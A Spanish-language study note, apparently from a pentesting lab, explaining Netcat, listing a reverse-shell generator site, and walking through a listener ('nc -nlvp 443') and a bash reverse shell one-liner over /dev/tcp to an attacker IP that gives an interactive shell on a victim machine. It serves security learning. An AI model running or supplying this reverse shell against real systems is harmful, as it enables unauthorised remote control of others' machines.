 ¿Que es Netcat?: Netcat es una herramienta de red que permite abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto específico y forzar conexiones UDP/TCP. Es útil tanto para ataques como para auditores de seguridad de re  
  

> [!important] https://www.revshells.com - Este es un generador de shell inversa en línea que permite a cualquier persona configurar sus direcciones IP, puertos y shell de elección para sus payloads (cargas útiles) .

  

![[./../imagenes/image.png]]

  

  
Ponemos el siguiente comando en nuestra maquina atacante **nc -nlvp 443** . Con esto ponemos el Netcat en escucha en el puerto 443.

  
  
`nc -nlvp 443`  
  

> [!important] `nc`: Invoca **la herramienta** Netcat.<br><br><br>`-n`: **Desactiva la resolución de nombres DNS**. Esto significa que solo se usarán direcciones IP sin intentar resolver nombres de dominio.<br><br><br>`-``l`: **Activa el modo de escucha** (listen), lo que **convierte Netcat en un servidor que espera conexiones entrantes**.<br><br><br>`-v`: Habilita el modo "verboso" (verbose), proporcionando **información** detallada **sobre las conexiones**.<br><br><br>`-``p 443`: Especifica el **puerto** en el **que** Netcat **estará escuchando**, en este caso, el puerto 443 (comúnmente utilizado por HTTPS).<br><br>

  

![[../imagenes/9d3054ff-5a86-428a-bcc8-294f30a5ddb7.png]]

  

Si conseguimos acceso a muestra maquina victima debemos inyectar el comando que habíamos conseguido con el reverse shell generator.  
  
  
`sh -i >& /dev/tcp/192.168.1.49/443 0>&1`

  

![[./imagenes/image 1.png]]

  

Nuestra maquina atacante Kali reacciona a la señal de la maquina victima, originado que tengamos abierta una terminal interactiva sobre la maquina victima.

  

![[/imagenes/image 2.png]]

![[imagenes/image 3.png]]